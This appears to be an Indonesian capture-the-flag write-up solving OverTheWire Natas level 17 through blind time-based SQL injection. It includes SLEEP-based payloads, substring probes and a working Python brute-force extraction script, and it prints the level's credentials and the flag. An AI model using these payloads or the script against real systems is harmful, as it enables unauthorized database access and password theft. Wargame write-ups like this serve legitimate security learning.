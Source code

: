 ```yaml
---
layout: level
level: 17
previous: ./level 16.html
next: ./level 18.html
---
```


# soal
Username: natas17
URL:      http://natas17.natas.labs.overthewire.org

# solve
- login with cred natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
- ketika aku lihat source codenya ini mirip dengan tantangan yang sebelumnya hanya saja tidak terdapat debug echonya
  ![alt text](docs/images/image-55.png)
- disini saya mencoba untuk melakukan sleep command sql
  ```bash
  # ketika saya coba ini dia menunggu 5 detik dan kurasa ini berhasil
  # kita mengetahui bahwa terdapat user natas18

  natas18" AND SLEEP(2);-- #
  # lama requestnya (true)
  
  natas19" AND SLEEP(2);-- #
  # cepat requestnya (false)
  ```
- kita sudah mengetahui cara mendapatkan true dan falsenya
  ```bash
  natas18" AND substring(password,1,1) = 'a' AND sleep(2);-- #
  natas18" AND BINARY substring(password,1,1) = 'a' AND sleep(2);-- #
  ```
- saya mencoba menggunakan burp suite untuk melakukan brute force
  ![alt text](docs/images/image-56.png)
  dan saya melihat angka 6 memiliki received paling lama yaitu 2000an dan ketika saya request item again ttp besar jadi saya beramsumsi bahwa huruf pertama nya adalah angka 6
  ![alt text](docs/images/image-57.png)
- lalu saya mencoba intruder lagi hanya saja dengan 2 variable agar lebih cepat
  ![alt text](docs/images/image-58.png)
  ![alt text](docs/images/image-59.png)
  ```bash
  6....b.d.j..lp.g....b.....l..g
  ```
  - dan disini jika kita lihat setelah 634 of 1900 aku telah mendapatkan setengah jawabanya meskipun sebenenrya ketika di coba ada juga beberapa yang error
  - namun karena lama jadi aku mencoba menggunakan python saja agar mempercepat proses brute force

## saya juga menemukan cara menggunakan python
```py
import requests
import re
from time import *

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

Url = "http://natas17.natas.labs.overthewire.org"

session = requests.session()

current_password = list()

while(True):
    for character in characters:
        print("Trying with: " + "".join(current_password) + character)
        startTime = time()
        response = session.post(Url, data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},auth=(username, password))
        endTime = time()
        if endTime - startTime > 2:
            current_password.append(character)
            break
    if len(current_password) == 32:
            break
```

# flag
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ